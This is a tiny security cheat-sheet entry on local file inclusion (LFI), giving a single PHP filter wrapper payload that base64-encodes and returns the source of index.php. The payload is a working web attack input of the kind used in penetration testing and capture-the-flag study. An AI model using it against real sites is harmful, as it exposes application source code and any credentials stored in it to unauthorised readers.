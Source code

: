 # LFI

LFI with PHP Filter (reading index.php):

```url
php://filter/convert.base64-encode/resource=index.php
```

